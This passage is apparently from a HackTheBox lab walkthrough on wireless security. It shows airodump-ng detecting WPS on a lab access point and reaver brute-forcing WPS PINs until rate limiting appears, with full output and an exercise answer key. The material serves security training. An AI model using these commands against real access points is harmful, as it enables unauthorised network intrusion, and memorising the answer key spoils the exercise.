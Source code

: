 Code: shell

```shell
airodump-ng mon0 --wps
```

```
root@WiFiIntro:/home/wifi# airodump-ng mon0 --wps

 CH  1 ][ Elapsed: 6 s ][ 2024-11-04 09:00 ][ fixed channel mon0: -1 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH WPS    ESSID

 16:CF:63:BA:5D:45  -28 100       93        0    0   1   54   WPA2 CCMP   PSK  2.0    HackTheBox_Secure                             

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
```

Next, students will use `reaver` to perform brute-forcing while enabling verbosity to find out the number of attempts needed for the wireless access point to become locked; they will scrutinize the warning message and will count the number of attempts:

Code: shell

```shell
reaver -i mon0 -c 1 -b 16:CF:63:BA:5D:45 -v
```

```
root@WiFiIntro:/home/wifi# reaver -i mon0 -c 1 -b 16:CF:63:BA:5D:45 -v

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 16:CF:63:BA:5D:45
[+] Received beacon from 16:CF:63:BA:5D:45
[+] Trying pin "12345670"
[!] Found packet with bad FCS, skipping...
[+] Associated with 16:CF:63:BA:5D:45 (ESSID: HackTheBox_Secure)

<SNIP>

[+] Trying pin "01235678"
[+] Associated with 16:CF:63:BA:5D:45 (ESSID: HackTheBox_Secure)
[!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking
```

Answer: `3`

# Secured Access Points

## Question 2

